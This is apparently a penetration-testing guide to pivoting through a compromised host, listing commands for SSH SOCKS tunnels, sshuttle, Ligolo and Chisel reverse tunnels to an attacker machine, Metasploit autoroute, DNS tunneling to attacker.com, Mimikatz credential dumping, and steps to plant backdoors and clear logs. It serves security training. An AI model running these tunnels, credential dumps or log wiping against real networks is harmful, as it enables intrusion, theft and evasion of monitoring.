 # Pivoting in Penetration Testing

## Introduction
Pivoting is a crucial technique in penetration testing that allows an attacker to use a compromised system as a bridge to access an otherwise restricted network. This enables lateral movement within an organization’s internal infrastructure. By leveraging pivoting, attackers can bypass security controls like firewalls and access sensitive internal resources.

## Types of Pivoting
1. **Network Pivoting** - Routing traffic through a compromised system to access internal networks.
2. **Port Forwarding** - Exposing services from an internal machine to the attacker's machine.
3. **VPN Pivoting** - Creating a VPN connection to route all traffic through the compromised host.
4. **SOCKS Proxy Pivoting** - Using a SOCKS proxy to tunnel traffic through a compromised host.
5. **Metasploit Pivoting** - Utilizing Metasploit's autoroute and SOCKS modules.
6. **Plink (PuTTY Link) Pivoting** - Using Plink for SSH tunneling.
7. **SSHuttle Pivoting** - Transparently routing traffic through an SSH connection.
8. **RDP Pivoting** - Using Remote Desktop Protocol (RDP) to access internal machines.
9. **ICMP Tunneling** - Encapsulating data within ICMP packets.
10. **DNS Tunneling** - Exfiltrating or tunneling data over DNS queries.

## Step-by-Step Guide to Pivoting

1. ### Compromise an Initial Host
  - Gain access to an external system using exploits, phishing, or credentials.
  - Obtain a shell or remote desktop access.

2. ### Identify Network Interfaces
  - Check available interfaces and network connections:
    ```bash
    ip a
    ip route
    ifconfig
    netstat -rn
    ```

  Identify internal IP ranges that may indicate private networks.

3. ### Enumerate Internal Network
  - Scan internal subnets using: `nmap -sP 10.10.0.0/24`
  - Check for active services: `nmap -sV -p 80,443,3389,445 10.10.0.10`
  - Extract credentials if possible (e.g., from memory dumps or configuration files).

4. ### Establish Pivoting
    - #### SSH Tunneling (Dynamic and Local Port Forwarding)
        - Improper pivot as some of the reuest will not work.
        - Create a SOCKS proxy to route traffic: `ssh -D 1080 -N user@compromised-host`
        - Use local port forwarding to expose internal services: `ssh -L 8080:10.10.0.10:80 user@compromised-host`
        - Then use ProxyChains
            - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
            - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
    - #### sshuttle
        - Improper pivot as some of the reuest will not work.
        - `sshuttle -r privilege@192.168.80.10 192.168.98.0/24`
        - Explained `sshuttle -r user@target internal_ip/24`.
    - #### Ligolo (Auto Route Creation)
        - Setup network configuration
          ```bash
              ip tuntap add user root mode tun ligolo
              ip link set ligolo up
          ```
        - On attacker's machine: `./ligolo -reverse -listen :9090`
        - On compromised machine: `./ligolo -connect attacker-ip:9090`
        - Type on proxy
          ```bash
          session
          start
          ifconfig
          ```
        - Configure Internal IP with proper IP (Replace given IP with targets internal ip)
           ```bash
           ip route add 192.168.148.0/24 dev ligolo
           ip route list
           ```
    - #### Chisel (Fast TCP/UDP Tunneling)
        - On the attacker's machine (server): `./chisel server -p 8080 --reverse`
        - On the compromised machine (client): `./chisel client 192.168.1.100:8080 R:1080:socks`
        - Use ProxyChains with Chisel for further tunneling.
          
    - #### Metasploit Pivoting
        - Use autoroute to add routes through the compromised system: `run autoroute -s 10.10.0.0/24`
        - Use socks4a module to enable ProxyChains:
          ```bash
          use auxiliary/server/socks4a
          set SRVPORT 1080
          exploit
          ```
    - #### SSHuttle Pivoting
        - Transparently route traffic through an SSH connection: `sshuttle -r user@compromised-host 10.10.0.0/24`
    - #### Plink (PuTTY Link) Pivoting
        - Windows-based SSH tunneling: `plink.exe -D 1080 -N user@compromised-host`
    - #### RDP Pivoting
        - Use RDP to connect to internal machines: `xfreerdp /u:user /p:password /v:10.10.0.10`
    - #### ICMP Tunneling
        - Use tools like icmptunnel to route traffic over ICMP: `./icmptunnel -s attacker-ip`
    - #### DNS Tunneling
        - Use iodine to tunnel traffic over DNS: `iodine -f -P password -r attacker.com`
  
5. ### Routing Traffic Through Compromised Host
  - Use Metasploit’s autoroute to configure routes: `run autoroute -s 10.10.0.0/24`
  - Scan the internal network from Metasploit: `run post/multi/manage/autoroute`

6. ### Exploit Further and Move Laterally
  - Use credentials to access other machines (Pass-the-Hash, RDP, SMB, etc.).
  - Dump credentials using Mimikatz:
    ```bash
    mimikatz.exe
    sekurlsa::logonpasswords
    ```
  - Use SMB relay attacks to gain further access.

7. ### Maintain Access and Cover Tracks
  - Set up persistent backdoors (e.g., SSH keys, scheduled tasks).
  - Clear logs and disable security monitoring where possible.

## Conclusion
Pivoting is a powerful technique in penetration testing that allows an attacker to move deeper into a target network. Mastering tools like SSH, Chisel, Ligolo, Metasploit, and ProxyChains enables penetration testers to navigate restricted environments effectively.
